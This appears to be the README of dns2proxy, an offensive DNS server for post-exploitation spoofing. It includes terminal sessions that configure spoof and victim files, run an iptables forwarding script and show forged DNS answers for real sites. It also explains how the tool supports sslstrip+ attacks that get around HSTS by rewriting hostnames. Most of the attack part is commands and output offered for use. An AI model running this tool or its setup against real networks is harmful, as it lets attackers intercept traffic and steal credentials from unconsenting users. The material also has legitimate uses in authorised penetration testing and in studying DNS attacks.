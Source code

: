 dns2proxy  
=========  
  
Offensive DNS server  
  
This tools offer a different features for post-explotation once you change the DNS server to a Victim.
<Referer to help (-h) to new params options>
  
Feature 1  
---------  
  
Traditional DNS Spoof adding to the response the original IP address.  
  
Using spoof.cfg file:  
  
   hostname ip.ip.ip.ip  
  
>root@kali:~/dns2proxy# echo "www.s21sec.com 1.1.1.1" > spoof.cfg  
>  
>// launch in another terminal dns2proxy.py  
>  
>root@kali:~/dns2proxy# nslookup www.s21sec.com 127.0.0.1  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   www.s21sec.com  
>Address: 1.1.1.1  
>Name:   www.s21sec.com  
>Address: 88.84.64.30  
  
  
or you can use domains.cfg file to spoof all host of a same domain:  
  
>root@kali:~/demoBH/dns2proxy# cat dominios.cfg  
>.domain.com 192.168.1.1  
>  
>root@kali:~/demoBH/dns2proxy# nslookup aaaa.domain.com 127.0.0.1  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   aaaa.domain.com  
>Address: 192.168.1.1  
 
Hostnames at nospoof.cfg will no be spoofed.  
  
Feature 2  
---------  
  
This feature implements the attack of DNS spoofing adding 2 IP address at the top of the resolution and configuring the system to forward the connections.  
Check my slides at BlackHat Asia 2014 [OFFENSIVE: EXPLOITING DNS SERVERS CHANGES] (http://www.slideshare.net/Fatuo__/offensive-exploiting-dns-servers-changes-blackhat-asia-2014) and the [Demo Video] (http://www.youtube.com/watch?v=cJtbxX1HS5I).    
  
To launch this attach there is a shellscript that automatically configure the system using IP tables. You must edit this file to adapt it to your system. DON´T FORGET AdminIP variable!!!!  
Both IPs must be at the same system to let dns2proxy.py configurate the forwarding  
  
Usage: ia.sh < interface > [ip1] [ip2]   
  
  
>root@kali:~/dns2proxy# ./ia.sh eth0 172.16.48.128 172.16.48.230  
>Non spoofing imap.gmail.com  
>Non spoofing mail.s21sec.com  
>Non spoofing www.google.com  
>Non spoofing www.apple.com  
>Non spoofing ccgenerals.ms19.gamespy.com  
>Non spoofing master.gamespy.com  
>Non spoofing gpcm.gamespy.com  
>Non spoofing launch.gamespyarcade.com  
>Non spoofing peerchat.gamespy.com  
>Non spoofing gamestats.gamespy.com  
>Specific host spoofing www.s21sec.com with 1.1.1.1  
>Specific domain IP .domain.com with 192.168.1.1  
>binded to UDP port 53.  
>waiting requests.  
>Starting sniffing in (eth0 = 172.16.48.128)....  
>  
>< at other terminal >  
>  
>root@kali:~/dns2proxy# nslookup www.microsoft.com 127.0.0.1  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   www.microsoft.com  
>Address: 172.16.48.128  
>Name:   www.microsoft.com  
>Address: 172.16.48.230  
>Name:   www.microsoft.com  
>Address: 65.55.57.27  
  
  
The fhtang.sh script will terminate the program and restore normal iptables.  
  
Hostnames at nospoof.cfg will no be spoofed.  
  
  
Feature 3  
---------  
  
Automatically the dns server detects and correct the changes thats my sslstrip+ do to the hostnames to avoid HSTS, so will response properly.  
  
This server is necesary to make the sslstrip+ attack.  
  
>root@kali:~/dns2proxy# nslookup webaccounts.google.com 127.0.0.1    <-- DNS response like accounts.google.com  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   webaccounts.google.com  
>Address: 172.16.48.128  
>Name:   webaccounts.google.com  
>Address: 172.16.48.230  
>Name:   webaccounts.google.com  
>Address: 74.125.200.84  
>  
>root@kali:~/dns2proxy# nslookup wwww.yahoo.com 127.0.0.1            <-- Take care of the 4 w! DNS response like  
>Server:         127.0.0.1                                                     www.yahoo.com  
>Address:        127.0.0.1#53  
>  
>Name:   wwww.yahoo.com  
>Address: 172.16.48.128  
>Name:   wwww.yahoo.com  
>Address: 172.16.48.230  
>Name:   wwww.yahoo.com  
>Address: 68.142.243.179  
>Name:   wwww.yahoo.com  
>Address: 68.180.206.184  
  
  
Instalation  
-----------  
  
dnspython (www.dnspython.com) is needed. 
Tested with Python 2.6 and Python 2.7.


Config files description
------------------------

domains.cfg (or dominios.cfg): resolve all hosts for the listed domains with the listed IP 
>Ex: 
>.facebook.com 1.2.3.4 
>.fbi.gov 1.2.3.4 

spoof.cfg : Spoof a host with a ip 
>Ex: 
>www.nsa.gov 127.0.0.1 

nospoof.cfg: Send always a legit response when asking for these hosts. 
>Ex. 
>mail.google.com 

nospoofto.cfg: Don't send fake responses to the IPs listed there. 
>Ex: 
>127.0.0.1 
>4.5.6.8 

victims.cfg: If not empty, only send fake responses to these IP addresses.
>Ex: 
>23.66.163.36 
>195.12.226.131   

resolv.conf: DNS server to forward the queries.
>Ex:
>nameserver 8.8.8.8

